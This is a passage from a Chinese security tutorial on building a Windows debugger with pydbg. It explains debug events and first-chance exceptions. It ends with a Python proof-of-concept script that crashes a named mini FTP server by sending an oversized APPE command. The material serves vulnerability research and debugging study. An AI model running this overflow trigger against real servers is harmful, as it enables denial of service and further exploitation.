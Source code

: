 ```
        break;
    }
}
//some code

```

每种调试事件的具体信息用u来索引,例如dwDebugEventCode值为1,那么就是u.Exception,EXCEPTION_DEBUG_INFO结构中dwFirstChange用来判断首轮异常还是末轮异常,dwFirstChange不为零,代表首轮,这意味着触发异常时程序中的异常处理器还未接管.

如下代码,假如此处strcpy发生溢出,但忽略了首轮异常,except进行了处理,我们的调试器就无法捕捉

```
void test(){
    __try{
        strcpy(aaa,bbb);
    }
    __except(...){
        printf(...);
    }
}

```

之后还有获取上下文动作、读取内存动作、栈展开等,毫无疑问要花费相当的精力,幸运的pydbg模块已经帮封装了大多数的功能.

pydbg的安装网上有教程,我这里用python2.7.8 32bit正常安装

`python -m pydoc pydbg`或者`help(pydbg)`查看相关介绍.

![test](http://drops.javaweb.org/uploads/images/c55b06b0de3e7b4a48a593e107509d38733b08fc.jpg)

测试软件用的光刃前辈之前挖掘的"守望迷你ftp服务器"漏洞,测试exp:

```
import sys,socket

def main():
    ip,port,user,password=sys.argv[1:]
    shellcodeTest=['A'*500]
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    connect=s.connect((ip,int(port)))
    s.recv(4096)
    s.send('USER'+' '+str(user)+'\r\n')
    s.recv(4096)
    s.send('PASS'+' '+str(password)+'\r\n')
    s.recv(4096)
    s.send('APPE'+' '+shellcodeTest[0]+'\r\n')
    s.recv(4096)
    s.send('QUIT'+' '+'\r\n')
    s.close()

if __name__ == '__main__':
    main()

```
